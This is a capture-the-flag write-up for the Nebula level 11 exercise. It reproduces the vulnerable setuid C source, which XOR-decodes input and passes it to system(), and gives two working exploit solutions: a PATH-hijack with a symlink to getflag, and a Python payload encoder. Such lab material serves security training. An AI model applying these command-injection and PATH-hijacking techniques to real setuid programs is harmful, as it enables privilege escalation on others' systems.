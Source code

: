 .. _nebula11:

.. role:: bash(code)
	  :language: bash

.. role:: python(code)
	  :language: python

.. role:: c(code)
	  :language: c
		     
Nebula 11
=========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level11/

**Source Code**

.. code-block:: c
		
		#include <stdlib.h>
		#include <unistd.h>
		#include <string.h>
		#include <sys/types.h>
		#include <fcntl.h>
		#include <stdio.h>
		#include <sys/mman.h>

		/*
		 * Return a random, non predictable file, and return the file descriptor for it.
		 */

		 int getrand(char **path)
		 {
		       char *tmp;
		       int pid;
		       int fd;

		       srandom(time(NULL));

		       tmp = getenv("TEMP");
		       pid = getpid();

		       asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
		       'A' + (random() % 26), '0' + (random() % 10),
		       'a' + (random() % 26), 'A' + (random() % 26),
		       '0' + (random() % 10), 'a' + (random() % 26));

		       fd = open(*path, O_CREAT|O_RDWR, 0600);
		       unlink(*path);
		       return fd;
		 }

		void process(char *buffer, int length)
		{
		    unsigned int key;
		    int i;

		    key = length & 0xff;

		    for(i = 0; i < length; i++) {
		        buffer[i] ^= key;
			key -= buffer[i];
		    }

		    system(buffer);
		}

		#define CL "Content-Length: "

		int main(int argc, char **argv)
		{
		    char line[256];
		    char buf[1024];
		    char *mem;
		    int length;
		    int fd;
		    char *path;

		    if(fgets(line, sizeof(line), stdin) == NULL) {
		        errx(1, "reading from stdin");
		    }

		    if(strncmp(line, CL, strlen(CL)) != 0) {
		        errx(1, "invalid header");
		    }
   
		    length = atoi(line + strlen(CL));

		    if(length < sizeof(buf)) {
		        if(fread(buf, length, 1, stdin) != length) {
		            err(1, "fread length");
			}
			process(buf, length);
		    } else {
		        int blue = length;
			int pink;

			fd = getrand(&path);

			while(blue > 0) {
		            printf("blue = %d, length = %d, ", blue, length);

			    pink = fread(buf, 1, sizeof(buf), stdin);
			    printf("pink = %d\n", pink);

			    if(pink <= 0 ) {
			        err(1, "fread fail(blue = %d, length = %d)", blue, length);
			    }
			    write(fd, buf, pink);

			    blue -= pink;
			}

			mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
			if(mem == MAP_FAILED) {
		            err(1, "mmap");
			}
			process(mem, length);
		    }

		}

Important Note
----
   
This level has two posible ways to be exploited but, it have a bug on the sticky bit, this bug can be seen by strace

**Reported bug:** https://security.stackexchange.com/questions/137204/nebula-level11-setuid-is-not-working

Solution
--------
* First way:

.. code-block:: bash

   export PATH=/tmp/:$PATH
   ln -s /bin/getflag d
   echo -ne "Content-Length: 1\nd" | /home/flag11/flag11

.. note:: Execute it until an "e" comes up, if this letter shows then you can execute

* Second way:

.. code-block:: python

   string = "/bin/getflag\x00"
   key = 0

   enc_string = ""

   for char in string:
       enc_char = ord(char) ^ key & 0xff
       enc_string += chr(enc_char)
       key = key - ord(char) & 0xff

   print "Content-Length: 1024\n" + enc_string + "\x00" * (1024 - len(enc_string))
